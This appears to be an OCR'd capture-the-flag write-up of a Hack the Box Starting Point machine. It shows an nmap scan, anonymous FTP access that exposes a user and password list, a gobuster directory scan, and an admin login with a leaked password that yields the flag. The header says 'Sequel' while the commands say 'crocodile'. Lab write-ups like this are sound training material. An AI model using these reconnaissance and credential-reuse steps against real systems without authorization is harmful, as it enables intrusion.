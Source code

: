 Hack the Box
Starting Point

Sequel

10.129.143.85

nmap -sV -sC --min-rate 1000 --max-retries 2 -oN nmap/crocodile 10.129.143.85

Starting Nmap 7.80 ( https://nmap.org ) at 2023-06-19 00:09 Americas
Nmap scan report for 10.129.143.85
Host is up (0.13s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
|_-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.41
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Smash - Bootstrap Business Template
Service Info: OS: Unix


ftp 10.129.143.85
Connected to 10.129.143.85.
220 (vsFTPd 3.0.3)
Name (10.129.143.85:abc): anonymous
230 Login successful.

ftp> get allowed.userlist
ftp> get allowed.userlist.passwd

$ cat allowed.userlist
aron
pwnmeow
egotisticalsw
admin
abc@cd1d95f54ad3:~/BlueGh05t/CTF/HTB/starting_point/crocodile$ cat allowed.userlist.passwd
root
Supersecretpassword1
@BaASD&9032123sADS
rKXM59ESxesUFHAd


gobuster -u 10.129.143.85 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt -x php,html,htm

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.129.143.85/
[+] Threads      : 10
[+] Wordlist     : /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt
[+] Status codes : 200,204,301,302,307,403
[+] Extensions   : htm,php,html
[+] Timeout      : 10s
=====================================================
2023/06/19 00:18:17 Starting gobuster
=====================================================
/index.html (Status: 200)
/login.php (Status: 200)
/assets (Status: 301)
/css (Status: 301)
/js (Status: 301)
/logout.php (Status: 302)
/config.php (Status: 200)

http://10.129.143.85/login.php

username: admin
password: rKXM59ESxesUFHAd

Here is your flag: c7110277ac44d78b6a9fff2232434d16